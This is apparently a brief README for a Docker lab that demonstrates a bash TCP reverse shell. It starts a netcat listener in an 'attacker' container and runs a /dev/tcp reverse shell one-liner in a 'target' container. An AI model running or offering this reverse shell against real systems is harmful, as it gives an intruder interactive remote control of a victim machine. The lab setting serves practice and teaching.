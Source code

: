 # Reversh shell

## With bash tcp

```bash
docker-compose up -d
```

```bash
docker exec -it reverseshell_attacker_1 bash
apt-get update
apt-get install -y netcat
nc -nvlp 80
```

```bash
docker exec -it reverseshell_target_1 bash
bash -i >& /dev/tcp/attacker/80 0>&1
```

```bash
docker-compose down
```
